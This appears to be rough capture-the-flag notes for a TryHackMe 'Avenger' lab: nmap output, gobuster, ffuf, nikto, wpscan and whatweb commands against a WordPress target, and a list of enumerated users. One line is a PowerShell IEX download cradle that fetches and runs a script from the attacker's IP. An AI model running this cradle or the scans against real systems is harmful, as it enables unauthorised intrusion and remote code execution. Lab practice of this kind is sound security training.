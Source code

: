 NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 16:20
Completed NSE at 16:20, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 16:20
Completed NSE at 16:20, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 16:20
Completed NSE at 16:20, 0.00s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 76.50 seconds
           Raw packets sent: 18 (792B) | Rcvd: 18 (792B)





gobuster dir -u http://10.201.2.142 -w /usr/share/wordlists/dirb/common.txt

gobuster dir -u http://10.201.2.142 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak,zip -t 50



gobuster dir -u http://avenger.tryhackme/gift -w /usr/share/wordlists/dirb/common.txt




dirb http://10.201.2.142 /usr/share/wordlists/dirb/common.txt

gobuster dir -u http://10.201.2.142 -w /usr/share/wordlists/dirb/common.txt

ffuf -w /usr/share/wordlists/wfuzz/general/big.txt -u http://10.201.2.142/FUZZ -fw 1

nikto -h 10.201.2.142




wpscan --url http://avenger.tryhackme/gift/ --enumerate p




START /B powershell -c "IEX (New-Object System.Net.WebClient).DownloadString('http://10.8.163.249:4455/Avenger.txt')"


wpscan --url https://avenger.tryhackme/ --enumerate u



user

Mike Rich
Jenny Smith
George Doe
Maria Jay





└─$ whatweb http://avenger.tryhackme/gift/
http://avenger.tryhackme/gift/ [200 OK] Apache[2.4.56], Country[RESERVED][ZZ], Email[contact@example.com,john@doe.com,office@example.com], HTML5, HTTPServer[Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28], IP[10.201.2.142], JQuery[3.6.4], MetaGenerator[WordPress 6.2.2], OpenSSL[1.1.1t], PHP[8.0.28], Script[text/javascript], Title[AVenger], UncommonHeaders[link], WordPress[6.2.2], X-Powered-By[PHP/8.0.28]
